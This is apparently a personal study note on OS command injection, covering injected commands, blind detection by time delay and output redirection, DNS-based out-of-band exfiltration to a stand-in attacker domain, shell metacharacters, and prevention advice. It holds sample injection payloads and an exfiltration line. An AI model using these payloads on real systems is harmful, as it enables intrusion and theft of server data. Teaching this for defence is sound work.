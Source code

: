 # OS command injection
#THEORY 
#COMMANDINJECTION

<hr>

OS command injection (shell injection) is a web security vulnerability that allows an attacker to execute arbitrary system (OS) commands in the server that is running the application, typically fully compromising the application and all its data. This can also lead an attacker to further compromise the infrastructure of the organization pivoting the attack to other systems.

## Executing arbitrary commands

Consider a shopping application that lets the user view whether an item is in stock in a particular store. This information is accessed via a URL like:

`https://insecure-website.com/stockStatus?productID=381&storeID=29`

To provide the stock information, the application must query various legacy systems. For historical reasons, the functionality is implemented by calling out to a shell command with the product and store IDs as arguments:

`stockreport.pl 381 29`

This command outputs the stock status for the specified item, which is returned to the user.

Since the application implements no defenses against OS command injection, an attacker can submit the following input to execute an arbitrary command:

`& echo aiwefwlguh &`

If this input is submitted in the `productID` parameter, then the command executed by the application is:

`stockreport.pl & echo aiwefwlguh & 29`

The `echo` command simply causes the supplied string to be echoed in the output, and is a useful way to test for some types of OS command injection. The `&` character is a shell command separator, and so what gets executed is actually three separate commands one after another. As a result, the output returned to the user is:

`Error - productID was not provided aiwefwlguh 29: command not found`

The three lines of output demonstrate that:

-   The original `stockreport.pl` command was executed without its expected arguments, and so returned an error message.
-   The injected `echo` command was executed, and the supplied string was echoed in the output.
-   The original argument `29` was executed as a command, which caused an error.

Placing the additional command separator `&` after the injected command is generally useful because it separates the injected command from whatever follows the injection point. This reduces the likelihood that what follows will prevent the injected command from executing.

### Exploitation example

[[OS command injection, simple case]]

<hr>

## Useful commands

Obtain as much information as possible form the compromised system.

Purpose of command | Linux | Windows
---------------|-------|------------
Name of current user |`whoami`|`whoami`
Operating system | `uname -a` | `ver`
Network configuration | `ifconfig` | `ipconfig /all`
Network connections | `netstat -an` | `netstat -an`
Running processes | `ps -ef` |`tasklist`

<hr>

## Blind OS command injection vulnerabilities

This occurs when the application does not return the output from the command within its HTTP response. The vulnerability can still be exploited but different techniques are applied.

An example scenario:

Consider a web site that lets users submit feedback about the site. The user enters their email address and feedback message. The server-side application then generates an email to a site administrator containing the feedback. To do this, it calls out to the `mail` program with the submitted details. For example:

`mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com`

The output from the `mail` command (if any) is not returned in the application's responses, and so using the `echo` payload would not be effective. In this situation, you can use a variety of other techniques to detect and exploit a vulnerability.

<hr>


## Detecting blind OS command injection

### Time delays

An injected command can be used to trigger a time delay, with the purpose of determining if the command was executed based on the time the application takes to respond. The `ping` command can be useful in this case, injecting a payload like:

`& ping -c 10 127.0.0.1 &`

Which will cause the application to ping its loopback interface for 10 seconds.

### Exploitation example

[[Blind OS command injection with time delays]]

### Redirecting output

Inject a command, then redirect it's output to a file, place it a location in which it can be retrieved with the browser, depending on wether the application serves static resources or not. Use a payload like:

`& whoami > /var/www/static/whoami.txt &`

(the payload above assumes that the web application uses the system location `/var/www/static` to retieve resources and also that the server runs Linux OS)

The `>` character sends the output from the `whoami` command to the specified file. You can then use the browser to fetch `https://vulnerable-website.com/whoami.txt` to retrieve the file, and view the output from the injected command.

### Exploitation example

[[Blind OS command injection with output redirection]]

<hr>

## Command injection using out-of-band (OAST) techniques

The goal is injecting a command that triggers an out-of-band network interaction with an attacker controlled system.

`& nslookup kgji2ohoyw.web-attacker.com &`

The `nslookup` command causes a DNS lookup for the specified domain. So that he attacker can confirm that the command was executed by the server.

### Data exfiltration

The out-of-band channel also provides an easy way to exfiltrate the output from injected commands:

``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &``

This will cause a DNS lookup to the attacker's domain containing the result of the `whoami` command:

`wwwuser.kgji2ohoyw.web-attacker.com`

<hr>

## Ways to inject commands

Useful shell metacharacters to inject commands.

Metacharacters | Unix | Windows
---------------|-------|------------
Name of current user |[x]|[x]
`&`| [x]| [x]
`&&` |[x]|[x]
\| |[x]|[x]
\|\| |[x]|[x]
`;` |[x]|[]
`Newline (0x0a or \n)` |[x]|[]
\`injected command\`  |[x]|[]
$(injected command)  |[x]|[]

Note that the different shell metacharacters have subtly different behaviors that might affect whether they work in certain situations, and whether they allow in-band retrieval of command output or are useful only for blind exploitation.

Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using `"` or `'`) before using suitable shell metacharacters to inject a new command.

<hr>

## How to prevent OS command injection attacks

By far the most effective way to prevent OS command injection vulnerabilities is to never call out to OS commands from application-layer code. In virtually every case, there are alternate ways of implementing the required functionality using safer platform APIs.

If it is considered unavoidable to call out to OS commands with user-supplied input, then strong input validation must be performed. Some examples of effective validation include:

-   Validating against a whitelist of permitted values.
-   Validating that the input is a number.
-   Validating that the input contains only alphanumeric characters, no other syntax or whitespace.

Never attempt to sanitize input by escaping shell metacharacters. In practice, this is just too error-prone and vulnerable to being bypassed by a skilled attacker.